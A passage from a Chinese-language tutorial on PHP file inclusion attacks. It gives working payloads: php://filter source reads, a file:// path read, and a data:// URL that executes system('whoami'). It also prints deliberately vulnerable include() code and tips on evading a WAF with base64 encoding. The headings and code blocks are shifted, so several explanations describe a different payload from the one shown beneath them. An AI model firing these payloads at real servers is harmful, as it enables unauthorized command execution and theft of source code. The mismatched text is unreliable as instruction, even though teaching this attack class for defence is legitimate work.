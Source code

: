 将攻击代码转换为 data:URL 形式进行攻击，以传递相应格式的数据用来执行 PHP 代码。为了防止直接在 URL 连接中的一些敏感字符被 waf 检测拦截，可将攻击代码进行 base64 编码。

```
?file=php://filter/read=convert.base64-encode/resource=1.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaOAL1n7IdCiaONziaZzgwnbejzWQW7VAxz7gYvcCxG4je6kqzbq4AHNYg/640?wx_fmt=png)

条件：allow\_url\_include = on&allow\_url\_fopen()=on& PHP>= 5.2.0

### **③php://filter 读取源代码**

php://filter 用于读取网站源码。读取 php 文件源码内容 (直接包含脚本格式文件会解析无法直接获取文件源码)。用法：

```
?file=file:///C:\\\\phpStudy\\\\WWW\\\\fileinclude\\\\2\\\\1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaSiaCrfhVbCH2fLuWFDCiakfbPiavHcM2jicRV8SbbJzutSAtZOsibt5fz6A/640?wx_fmt=png)  

### **④file:// 物理路径包含文件**

file:// 协议在 allow\_url\_fopen,allow\_url\_include 都为 off 的情况下也可以正常使用：

```
?file=data://text/plain,%3C?php%20system(%27whoami%27);?%3E
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviayLytiaOQWWdWIRiaANpMxoR6G0Y1IuQaUuMgJvkLediauN6bldevIU7yA/640?wx_fmt=png)

### **⑤data://: 利用文件包含 & data:// 进行命令执行**

```
\# 验证包含对象文件后缀是否为jpg，如果是才进行包含
<?php
$file = $\_GET\['file'\];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
    include($file);
}
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZdzydTyF3UI7NibnZTdRcviaVAjK4GGn42RRW1U9Ij3ct4KI7rELTZ9zNRbevsFzPW8AZm1Nrfd8Rg/640?wx_fmt=png)  

**⑥zip:// 绕过文件包含下的附加后缀  
**

以下两串代码是对文件后缀进行验证或修改然后再进行包含。对于此类情况，如果要包含非预定文件后缀的文件，可以通过 %00 截断进行绕过。但是 %00 截断在 php 版本 5.3.4 之后就失效了，而且还要考虑 GPC，限制比较严重。除此之外，可以通过 zip 协议和 phar 协议来包含文件，突破附加后缀限制。

```
#直接为包含对象添加jpg后缀，然后进行包含
<?php
$file = $\_GET\['file'\];
include($file.'.jpg');
?>
```
